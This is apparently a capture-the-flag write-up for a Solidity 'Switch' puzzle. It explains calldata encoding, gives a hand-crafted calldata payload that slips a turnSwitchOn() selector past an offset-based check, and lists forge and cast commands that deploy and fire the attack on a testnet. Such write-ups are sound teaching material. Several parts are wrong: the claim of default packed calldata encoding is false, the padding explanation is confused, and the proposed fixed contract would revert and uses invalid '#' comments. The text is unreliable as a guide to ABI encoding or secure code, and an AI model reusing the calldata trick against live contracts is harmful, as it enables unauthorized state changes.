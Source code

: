 # Switch

Just have to flip the switch. Can't be that hard, right?

## CALLDATA

`CALLDATA` is a special area where the input data of a function call is stored. This data includes the function identifier (also known as the function selector) and any parameters passed to the function. The encoding of `CALLDATA` is crucial for the Ethereum Virtual Machine (EVM) to correctly identify and execute the intended function and handle its parameters.

### How CALLDATA is encoded

1. `Function selector`: The first `4 bytes` of `CALLDATA` are reserved for the function selector. This is derived from the first 4 bytes of the Keccak-256 hash of the function signature (e.g., `transfer(address,uint256)`). The function signature includes the function name and the parenthesized list of parameter types. The function selector allows the EVM to determine which function is being called.
2. `Parameters encoding`: After the function selector, the parameters of the function call are encoded. Solidity uses the `Ethereum Contract ABI (Application Binary Interface)` specification for encoding these parameters. The encoding of parameters is done as follows:
   1. `Elementary types`: Elementary types like uint256, address, etc., are encoded as 32 bytes, with more significant bytes added to the left if necessary. For example, an address which is 20 bytes long will have 12 leading zero bytes when encoded.
   2. `Dynamic types`: Types such as bytes and string, whose size can change, are encoded differently. First, the offset to the start of their data is encoded as a 32-byte number, followed by the length of the data (also as a 32-byte number), and then the actual data. The offset is calculated from the start of the function arguments.
   3. `Arrays and Structs`: For arrays and structs, each element or field is encoded sequentially, following the rules for their types. Fixed-size arrays and structs are encoded inline, while dynamic arrays include an offset to the start of their data, similar to dynamic types.
3. `Packed vs. Unpacked`: By default, Solidity uses "packed" encoding for `CALLDATA` to save space and gas. However, when interacting with contracts externally (e.g., via web3.js or ethers.js), the `ABI-encoded` data is typically "unpacked" for readability and standardization purposes.
4. Example: Consider a function call `transfer(address recipient, uint256 amount)`. The `CALLDATA` for this call would start with the function selector for `transfer(address,uint256)`, followed by the 32-byte encoded `address` of the recipient (with leading zeros), and then the 32-byte encoded `amount`.

### calldatacopy

The `calldatacopy` instruction in Solidity's inline assembly is used to copy data from the call data to memory. The calldatacopy instruction is particularly useful for operations that require direct manipulation or inspection of the raw call data, which can be more gas-efficient in certain scenarios. Here's a breakdown of how calldatacopy works:

It's often used in low-level operations, such as when a contract needs to dynamically determine which function to call or when processing arbitrary-length data that doesn't fit neatly into Solidity's type system.

`calldatacopy` is a powerful tool for low-level manipulation of call data in Solidity contracts, enabling efficient data handling and custom processing scenarios. However, its use requires careful consideration of safety, complexity, and compatibility aspects.

- Syntax: calldatacopy(t, f, s)

    t (target): The starting position in memory where the data should be copied to.
    f (from): The starting position in the call data from where to begin copying.
    s (size): The number of bytes to copy from the call data to memory.

```bash
assembly {
    calldatacopy(selector, 68, 4) // grab function selector from calldata
}
```

This line copies 4 bytes (the size of a function selector) from the call data starting at position 68 into the `selector` variable in memory. The choice of position 68 assumes a specific layout of the call data, likely based on the structure of the transaction being sent to `flipSwitch`.

## Vulnerability

```bash
✗ cast sig "flipSwitch(bytes)"
0x30c13ade

cast sig "turnSwitchOff()"
0x20606e15

✗ cast sig "turnSwitchOn()"
0x76227e12
```
1. Function Selector for `flipSwitch(bytes memory data)`: `30c13ade`

This is the first 4 bytes of the calldata and is used to identify which function to call in the smart contract.

2. Offset for the data field: `0000000000000000000000000000000000000000000000000000000000000060`

This indicates the start of the data for the `bytes memory data` parameter. In Solidity, complex data types like `bytes` and `string` are passed by reference, with this part specifying the offset (in bytes) from the start of the calldata to where the data begins. The offset is `96 bytes` (`0x60` in hexadecimal), pointing to the location after the initial function selector and the length of the bytes array.

3. Padding to reach the `64-byte` offset: `0000000000000000000000000000000000000000000000000000000000000000`

This is used to align the next part of the calldata to a `64-byte` boundary, as per Solidity's convention for handling calldata.

4. Function selector for `turnSwitchOff()`: 20606e1500000000000000000000000000000000000000000000000000000000

This part is intended to mimic a legitimate call to `turnSwitchOff()` by including its function selector. The function selector is followed by padding to fill the rest of the `32-byte` slot.

5. Length of data field: `0000000000000000000000000000000000000000000000000000000000000004`

This specifies the length of the data being passed to the `flipSwitch` function. In this case, it indicates that the data is `4 bytes` long, which is incorrect given the actual length of the data provided. This is part of the crafted exploit.

6. Function selector for `turnSwitchOn()`: `76227e1200000000000000000000000000000000000000000000000000000000`

This is the actual data being passed to the `flipSwitch` function, intended to trigger a call to`turnSwitchOn()` by including its function selector. This part of the calldata is designed to exploit the contract by bypassing intended logic checks.

```bash
# Calldata layout (32-byte slots)
# 30c13ade                                                         -> function Selector for flipSwitch(bytes memory data)
# 0000000000000000000000000000000000000000000000000000000000000060 -> offset for the data field
# 0000000000000000000000000000000000000000000000000000000000000000 -> padding
# 20606e1500000000000000000000000000000000000000000000000000000000 -> function selector for turnSwitchOff()
# 0000000000000000000000000000000000000000000000000000000000000004 -> length of data field
# 76227e1200000000000000000000000000000000000000000000000000000000 -> function selector for turnSwitchOn()
```

## Attack

1. Deploy `SwitchAttack`.

```bash
forge script script/DeploySwitchAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0x70aD9fB0D0e2d9C82Bcf4DB46E6BdD2Beb5c7157
```

3. Attack

```bash
cast send $CONTRACT_ADDRESS "attack()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0xf1235f7755a33fcde34225c518755fe83d873519f671f43e6a95bb9a2e521744
```

## Fix

1. `Use explicit function calls instead of dynamic calls`: Replace the dynamic call in `flipSwitch` with explicit function calls. This prevents an attacker from crafting calldata that bypasses the contract's intended logic.

2. `Strengthen the onlyOff modifier`: Ensure that the `onlyOff` modifier checks not just for the presence of a specific function selector but also validates the overall structure and intent of the call.

3. `Validate the entire calldata`: Instead of just checking a portion of the calldata, validate the entire calldata to ensure it matches expected patterns for legitimate use cases.

4. `Use a more secure way to manage contract state`: Instead of allowing any external call to change the state, restrict state changes to predefined functions that are protected by appropriate access control mechanisms.

```bash
contract Switch {
    bool public switchOn; // switch is off
    bytes4 private constant OFF_SELECTOR = bytes4(keccak256("turnSwitchOff()"));
    bytes4 private constant ON_SELECTOR = bytes4(keccak256("turnSwitchOn()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    # This modifier is no longer needed if we're not using dynamic calls
    # modifier onlyOff() {
    #     require(!switchOn, "Switch must be off");
    #     _;
    # }

    function flipSwitch(bool turnOn) public {
        require(!switchOn, "Switch must be off");
        if (turnOn) {
            turnSwitchOn();
        } else {
            turnSwitchOff();
        }
    }

    function turnSwitchOn() private onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() private onlyThis {
        switchOn = false;
    }
}
```
